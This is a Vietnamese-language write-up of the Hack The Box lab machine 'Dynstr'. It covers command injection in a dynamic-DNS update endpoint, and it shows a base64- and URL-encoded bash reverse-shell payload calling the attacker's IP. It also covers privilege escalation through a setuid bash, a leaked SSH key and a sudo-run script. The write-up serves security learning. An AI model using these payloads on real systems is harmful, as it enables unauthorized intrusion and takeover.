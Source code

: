 # Write-up Machine "Dynstr" - Medium - HTB

## Bước 1: Enumeration

Sử dụng nmap để rà quét thì em thấy mục tiêu đang chạy web service trên cổng 80, SSH tại cổng 22 và DNS ở cổng 53: `nmap -p 10.10.10.244`

![](dynstr/1.jpg)

Truy cập web service tại cổng 80, ta được:

![](dynstr/2.jpg)

Chúng ta có được một số thông tin như domain, username và password:

![](dynstr/3.jpg)

Sử dụng gobuster để quét các đường dẫn trang web, em có được 1 đường dẫn là `/nic`. Đường dẫn `/nic` này có liên quan đến No-IP DDNS: https://www.noip.com/integrate/request.

![](dynstr/4.jpg)

## Bước 2: Lấy user flag

Theo hướng dẫn của trang web kia, ta tạo một requets gửi tới `/nic/update`, trong đó:

- myip là địa chỉ IP máy tấn công
- hostname em thử lần lượt 3 giá trị domains tìm được tại trang chính là: "dnsalias.htb", "dynamicdns.htb" và "no-ip.htb" đều không được, nhưng kết hợp cả 3 lại thành "dynamicdns.no-ip.htb" thì lại được
- Add thêm header `Authorization: Basic ZHluYWRuczpzbmRhbnlk` với `ZHluYWRuczpzbmRhbnlk` là giá trị mã hóa base64 của username:password tìm được tại trang chính (dynadns:sndanyd)

![](dynstr/5.jpg)

Trong quá trình tìm giá trị hostname, em nhận thấy nếu thêm các kí tự đặc biệt như `;` vào thì trang web sẽ trả về là `911 [nsupdate failed]`. Tìm hiểu về nsupdate thì em được biết đây là Dynamic DNS update utility, được dùng để submit Dynamic DNS update request.

![](dynstr/6.jpg)

Nếu như `nsupdate` là một binary thì có thể hệ thống sẽ thực thi nó, do vậy có thể khai thác để thực thi code, ở đây em sẽ sử dụng `nsupdate` để tạo một reverse shell. Payload: `bash -i &>/dev/tcp/10.10.14.37/9999 <&1` -> tạo reverse shell về cổng 9999, sau đó base64-encode payload được `YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx`. Payload hoàn chỉnh: ``echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx|base64 -d|bash``. Đoạn mã này sẽ in ra payload đã được mã hóa base64, sau đó giải mã và chạy nó sử dụng bash. Bước cuối cùng là URL Encode payload kia là xong: `%60echo%20YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjM3Lzk5OTkgPCYx%7Cbase64%20-d%7Cbash%60`

![](dynstr/7.jpg)

Sau đó dùng netcat lắng nghe tại cổng 9999, nếu đoạn code kia thực thi thành công thì sẽ tạo được reverse shell, nhưng lúc này mới chỉ là user `www-data`

![](dynstr/8.jpg)

`cd /home` ta thấy máy mục tiêu có 2 user là `bindmgr` và `dyna`

![](dynstr/9.jpg)

Tại thư mục của user `bindmgr`, ta thấy có bash binary với setuid, sử dụng nó để leo từ user `www-data` lên user `bindmgr` và lấy được flag user

![](dynstr/10.jpg)

## Bước 3: Lấy system flag

Vẫn tại thư mục /home/binmgr, file support-case-C62796521/strace-C62796521.txt cung cấp cho ta OpenSSH private key

![](dynstr/11.jpg)


Tiếp theo cần add địa chỉ IP máy tấn công vào zone sử dụng `nsupdate`

    nsupdate -k /etc/bind/infra.key
    > update add test.infra.dyna.htb. 86400 A 10.10.14.37
    >
    >
    > update add 37.14.10.10.in-addr.arpa. 300 PTR test.infra.dyna.htb.
    > send

Sau đó sử dụng OpenSSH key lấy được ở trên để ssh vào máy nạn nhân

![](dynstr/12.jpg)

Sử dụng lệnh `sudo -l` để xem được user có thể thực thi lệnh nào với quyền root, ở đây user có thể thực thi `bindmgr.sh` với quyền root

![](dynstr/13.jpg)

Chúng ta sẽ xem thử file `bindmgr.sh`:

    #!/usr/bin/bash

    # This script generates named.conf.bindmgr to workaround the problem
    # that bind/named can only include single files but no directories.
    #
    # It creates a named.conf.bindmgr file in /etc/bind that can be included
    # from named.conf.local (or others) and will include all files from the
    # directory /etc/bin/named.bindmgr.
    #
    # NOTE: The script is work in progress. For now bind is not including
    #       named.conf.bindmgr. 
    #
    # TODO: Currently the script is only adding files to the directory but
    #       not deleting them. As we generate the list of files to be included
    #       from the source directory they won't be included anyway.

    BINDMGR_CONF=/etc/bind/named.conf.bindmgr
    BINDMGR_DIR=/etc/bind/named.bindmgr

    indent() { sed 's/^/    /'; }

    # Check versioning (.version)
    echo "[+] Running $0 to stage new configuration from $PWD."
    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done

    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

    # Check generated configuration with named-checkconf.
    echo "[+] Checking staged configuration."
    named-checkconf $BINDMGR_CONF >/dev/null
    if [[ $? -ne 0 ]] ; then
        echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
        named-checkconf $BINDMGR_CONF 2>&1 | indent
        exit 44
    else 
        echo "[+] Configuration successfully staged."
        # *** TODO *** Uncomment restart once we are live.
        # systemctl restart bind9
        if [[ $? -ne 0 ]] ; then
            echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
        else
        echo "[+] Restart of bind9 via systemctl succeeded."
        fi
    fi

Đi sâu vào từng phần:

    if [[ ! -f .version ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 42
    fi
    if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
        echo "[-] ERROR: Check versioning. Exiting."
        exit 43
    fi

Đoạn script này sẽ kiểm tra .version đã tồn tại hay chưa, nếu file chưa tồn tại thì chương trình sẽ thoát

    # Create config file that includes all files from named.bindmgr.
    echo "[+] Creating $BINDMGR_CONF file."
    printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
    for file in * ; do
        printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
    done
    # Stage new version of configuration files.
    echo "[+] Staging files to $BINDMGR_DIR."
    cp .version * /etc/bind/named.bindmgr/

Còn nếu file .version đã tồn tại thì chương trình sẽ tạo file `$BINDMGR_CONF` và copy file .version đến thư mục /etc/bind/named.bindmgr/

Do đó, ta sẽ tạo thử file .version với nội dung tùy ý: `echo 1 > .version` và chạy đoạn script `bindmgr.sh`

![](dynstr/14.jpg)

Kết quả cho thấy file .version và toàn bộ các file trong thư mục gốc đã được copy sang thư mục /etc/bind/named.bindmgr. 

Do toàn bộ các file trong thư mục đều được copy sang thư mục /etc/bind/named.bindmgr, nên giờ ta có thể tạo một bash binary, cấp quyền setuid, chạy script và bash binary đó sẽ được copy sang thư mục kia với ownership = root, từ đó ta có thể đạt được root shell.

![](dynstr/15.jpg)

Tiến hành chạy đoạn script, sau đó chạy file bash tại thư mục /etc/bind/named.bindmgr là sẽ đạt được root shell

![](dynstr/16.jpg)
